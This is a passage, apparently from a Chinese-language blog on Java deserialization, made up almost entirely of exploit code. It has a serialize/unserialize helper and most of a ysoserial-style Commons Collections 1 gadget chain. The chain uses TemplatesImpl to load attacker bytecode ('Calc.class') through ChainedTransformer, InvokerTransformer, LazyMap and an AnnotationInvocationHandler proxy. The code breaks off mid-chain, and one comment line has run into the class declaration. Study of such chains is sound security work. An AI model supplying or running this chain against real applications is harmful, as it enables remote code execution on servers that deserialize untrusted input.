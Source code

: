 ```java=
 serialize(o);  
 unserialize("ser.bin");  
 }  
    public static void serialize(Object obj) throws IOException {  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  
 oos.writeObject(obj);  
 }  
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));  
 Object obj = ois.readObject();  
 return obj;  
 }  
}
### CC1 Templates yso exp
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.LazyMap;  
  
import java.io.*;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.Proxy;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.HashMap;  
import java.util.Map;  
  
// CC1 Yso 的正版链子，用 TemplatesImpl 实现 EXPpublic class CC1YsoTemplatesEXP {  
    public static void main(String[] args) throws Exception {  
        TemplatesImpl templates = new TemplatesImpl();  
 Class templatesClass = templates.getClass();  
 Field nameField = templatesClass.getDeclaredField("_name");  
 nameField.setAccessible(true);  
 nameField.set(templates, "Drunkbaby");  
  
 Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
 bytecodesField.setAccessible(true);  
 byte[] evil = Files.readAllBytes(Paths.get("E://Calc.class"));  
 byte[][] codes = {evil};  
 bytecodesField.set(templates, codes);  
  
 Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
 tfactoryField.setAccessible(true);  
 tfactoryField.set(templates, new TransformerFactoryImpl());  
 //     templates.newTransformer();  
 Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(templates), // 构造 setValue 的可控参数  
 new InvokerTransformer("newTransformer", null, null)  
        };  
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
 HashMap<Object, Object> hashMap = new HashMap<>();  
 Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);  
  
 Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
 Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);  
 declaredConstructor.setAccessible(true);  
 InvocationHandler invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Override.class, decorateMap);  
```